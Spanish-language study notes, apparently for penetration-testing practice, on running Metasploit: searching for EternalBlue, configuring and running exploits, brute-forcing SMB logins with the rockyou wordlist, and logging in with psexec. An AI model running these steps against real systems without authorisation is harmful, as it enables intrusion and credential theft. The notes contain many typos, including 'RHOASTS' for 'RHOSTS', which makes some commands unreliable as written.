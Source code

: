metaesploit es una herramienta muy potente que permite explotar vulnerabilidades conocidas en una maquina



## arrancar metasploit
Menú Inicio / metasplot (de esta forma se actualizan las Bases de datos de metaesploit)


## search {vulnerabilidad}

```sh title:"buscar vulnerabilidad"
msf6 > search {eternalblue}
msf6 > search {CVE-2017-0143}
# la bulnerabilidad nos la da el scrip de NMP
# podemos poner e CVE
# podemos poner el servico y la version que hemos sacado de nmap
```

## cargar un exploit
```sh title:"metasploit, cargar un exploit tras encontrarlo con serach"
msf6 > use {numero del exploit}
	# El numero depende de la Lista que nos saque metasploit con el search
```


## show options
se muestran 2 apartados 
	> Module options --> forma de configurar el exploit
	> Payload Options --> se ejecuta una vez el exploit ha conseguid acceso a la maquina (tambien puede ser configurable)
```sh title:"metasploit, Ver los parametros de configuracion para el exploit seleccionado"
msf6 exploit({exploti seleccionado}) > show options 
	# Veremos las diferentes opciones para cada exploit , si es required o no
	###### ALGUNAS OPCIONES
	# RHOSTS IP de la maquina victima
	# RPORT remote port
	# LHOST local IP
	# LPORT puerto local
```

## payload

El payload es lo que se va a ejecutar cuando el exploit consiga acceso a la maquina


## Configurar parámetros del exploit

```sh title:"metasploit, configurar parametros"
msf6 exploit({exploti seleccionado})> set {parametroname} [parametro valor] 
	# ejemplos:
	msf6 exploit({exploti seleccionado})> set RHOSTS 192.168.1.199
```

## Ejecutar
una vez todo esté configurado lo ejecutamos

```sh title:"metasploit, ejecutar metasploit"
msf6 exploit({exploti seleccionado})> run
```

```sh title:"metasploit, ejecutar metasploit"
msf6 exploit({exploti seleccionado})> exploit
```



## Fuerza bruta con metasploit a SMB


```sh title:"metasploit, ejecutar fuerza bruta al protocolo SMB"
msf6 > use auxiliary/scanner/smb/smb_login
# hacer atraques de fuerza bruta
show options
set RHOASTS {IP Victima}
set VERBOSE false
set SMBUSER {usuarioConocido}
set PASS_FILE usr/share/wordlists/rockyou.txt
show options
run
```

## Intentar hacer login con psexec
```sh title:"metasploit, SMB intentar hacer login con PSEXEC"
msf6 > use exploit/windows/smb/psexec
# hacer atraques de fuerza bruta
show options
set RHOASTS {IP Victima}
set VERBOSE false
set SMBUSER {usuarioConocido}
set SMBPASS {password encontrado con fuerza bruta}
show options
run
```